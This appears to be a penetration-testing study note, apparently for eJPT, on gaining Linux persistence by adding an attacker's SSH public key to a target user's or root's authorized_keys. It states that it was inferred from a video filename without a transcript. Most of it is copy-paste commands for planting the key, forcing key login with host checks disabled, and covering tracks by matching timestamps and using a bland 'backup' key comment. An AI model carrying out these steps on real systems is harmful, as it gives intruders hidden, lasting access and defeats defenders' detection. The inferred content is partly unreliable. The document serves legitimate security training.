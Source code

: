 # 01 - Persistence Via SSH Keys (02-LinuxPersistence)

Note: No transcript was provided. The following is a conservative, exam-focused summary inferred from the video filename and common eJPT/Linux persistence practices.

## What the video covers (Introduction / big picture)
- How to establish reliable Linux persistence by adding your public SSH key to a target’s authorized_keys.
- Ensuring the SSH service allows key-based auth, setting correct file permissions/ownership, and verifying access.
- Practical, minimal-footprint workflow you can reproduce during an engagement and clean up afterward.

## Flow (ordered)
1. Verify SSH server is installed, running, and reachable (port 22 or custom).
2. Generate an SSH key pair on your attack box (Ed25519 or RSA).
3. Place your public key into the target user’s ~/.ssh/authorized_keys (or root’s for privileged persistence).
4. Fix permissions and ownership so sshd accepts the key.
5. Test key-based login from your box.
6. Optional: minor OPSEC steps (generic comment, timestamps).
7. Clean up after the engagement.

## Tools highlighted
- ssh, sshd
- ssh-keygen, ssh-copy-id
- systemctl, ss/netstat
- mkdir, chmod, chown, tee/echo, cat
- tail, journalctl
- restorecon (SELinux systems)
- ufw/iptables (firewall checks)

## Typical command walkthrough (detailed, copy-paste friendly)

Replace placeholders in ALL_CAPS: TARGET, USER, TARGET_PORT, YOUR_PUBKEY, KEYFILE.

1) Check SSH service and port
```
# Service status (Debian/Ubuntu often 'ssh', RHEL-like often 'sshd')
sudo systemctl status ssh || sudo systemctl status sshd

# Start and enable if needed
sudo systemctl enable --now ssh || sudo systemctl enable --now sshd

# Confirm listener
sudo ss -tulpn | grep sshd || sudo netstat -tulpen | grep ssh

# Check configured port (default 22)
sudo grep -Ei '^\s*Port\s+' /etc/ssh/sshd_config || echo "Default port likely 22"
```

2) Generate an SSH key pair on your attack box
```
# Recommended (fast, modern)
ssh-keygen -t ed25519 -C "backup" -f ~/.ssh/KEYFILE -N ""

# If Ed25519 not supported by server, fall back to RSA 2048
ssh-keygen -t rsa -b 2048 -C "backup" -f ~/.ssh/KEYFILE -N ""
```

3A) If you have SSH password access to USER on TARGET
```
# Copies your public key to remote authorized_keys (creates .ssh as needed)
ssh-copy-id -i ~/.ssh/KEYFILE.pub -p TARGET_PORT USER@TARGET
```

3B) If you have a shell on TARGET (reverse shell/local)
```
# As USER (adjust home if needed)
mkdir -p ~/.ssh && chmod 700 ~/.ssh

# Paste your public key into authorized_keys (one line)
echo 'YOUR_PUBKEY' >> ~/.ssh/authorized_keys

chmod 600 ~/.ssh/authorized_keys
chown -R "$(id -u -n)":"$(id -g -n)" ~/.ssh

# SELinux systems (optional but recommended)
command -v restorecon >/dev/null 2>&1 && restorecon -Rv ~/.ssh
```

3C) Persistence for root (requires root shell or sudo)
```
sudo -s
mkdir -p /root/.ssh && chmod 700 /root/.ssh
echo 'YOUR_PUBKEY' >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
chown -R root:root /root/.ssh
command -v restorecon >/dev/null 2>&1 && restorecon -Rv /root/.ssh
```

4) Ensure sshd accepts key auth
```
# Confirm PubkeyAuthentication is enabled
sudo grep -Ei '^\s*PubkeyAuthentication\s+yes' /etc/ssh/sshd_config || echo "Consider enabling PubkeyAuthentication yes"

# If you changed config, reload
sudo systemctl reload ssh || sudo systemctl reload sshd
```

5) Test login from your attack box
```
ssh -i ~/.ssh/KEYFILE -p TARGET_PORT -o IdentitiesOnly=yes -o StrictHostKeyChecking=no USER@TARGET

# If multiple keys loaded, forcing publickey only can help diagnose:
ssh -i ~/.ssh/KEYFILE -p TARGET_PORT -o PreferredAuthentications=publickey -o PubkeyAuthentication=yes USER@TARGET
```

6) Troubleshooting
```
# On target (Debian/Ubuntu)
sudo tail -n 50 /var/log/auth.log | grep -Ei 'sshd|publickey|auth'

# On target (RHEL/CentOS/Fedora)
sudo tail -n 50 /var/log/secure | grep -Ei 'sshd|publickey|auth'

# Live journal view
sudo journalctl -u ssh -f || sudo journalctl -u sshd -f

# Common permission fixes (on target)
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
chown -R USER:USER ~/.ssh
```

7) Optional OPSEC niceties
```
# Use a generic key comment at generation: -C "backup"
# Match timestamps to reduce noise (example: align with ~/.bashrc)
touch -r ~/.bashrc ~/.ssh ~/.ssh/authorized_keys
```

8) Cleanup (post-engagement)
```
# Remove your key line safely
sed -i.bak '/YOUR_PUBKEY_CONTENT_SNIPPET/d' ~/.ssh/authorized_keys

# If no keys remain, you may optionally remove the file/dir (be careful)
[ ! -s ~/.ssh/authorized_keys ] && rm -f ~/.ssh/authorized_keys
[ -z "$(ls -A ~/.ssh 2>/dev/null)" ] && rmdir ~/.ssh || true
```

## Practical tips
- Permissions matter: ~/.ssh must be 700 and authorized_keys must be 600; ownership must match the user. SSH refuses to use looser perms.
- Keep key types compatible: Ed25519 preferred; fall back to RSA 2048 if needed.
- If root login is disabled, persist into a sudo-capable user. Modifying sshd_config (e.g., PermitRootLogin) is noisier and riskier.
- Ensure the SSH service is running and the port is reachable; check host firewalls (ufw/iptables) and security groups if applicable.
- Use -o IdentitiesOnly=yes to force ssh to use your specified key, avoiding confusion with other keys in your agent.
- On SELinux systems, restore file contexts with restorecon after creating ~/.ssh.
- Verify with logs: You should see “Accepted publickey” events for your user.
- Keep your private key secure; consider a separate key just for the lab to minimize exposure.

## Minimal cheat sheet (one-screen flow)
```
# 1) Generate key (attacker)
ssh-keygen -t ed25519 -C "backup" -f ~/.ssh/KEYFILE -N ""

# 2) Ensure sshd is up (target)
sudo systemctl enable --now ssh || sudo systemctl enable --now sshd
sudo ss -tulpn | grep sshd

# 3) Add key (target shell)
mkdir -p ~/.ssh && chmod 700 ~/.ssh
echo 'YOUR_PUBKEY' >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chown -R USER:USER ~/.ssh
command -v restorecon >/dev/null 2>&1 && restorecon -Rv ~/.ssh

# 4) Test (attacker)
ssh -i ~/.ssh/KEYFILE -o IdentitiesOnly=yes -o StrictHostKeyChecking=no USER@TARGET -p 22

# 5) Troubleshoot (target)
sudo tail -n 50 /var/log/auth.log | grep sshd || sudo tail -n 50 /var/log/secure | grep sshd
```

## Summary
- Persistence via SSH keys is straightforward and stable: generate a key, ensure sshd is running, append your public key to the target user’s authorized_keys, set correct permissions/ownership, and verify login.
- Focus on correctness (permissions, ownership, service status) and compatibility (key type). Use logs for rapid troubleshooting.
- Keep changes minimal and reversible; clean up by removing your key after the engagement.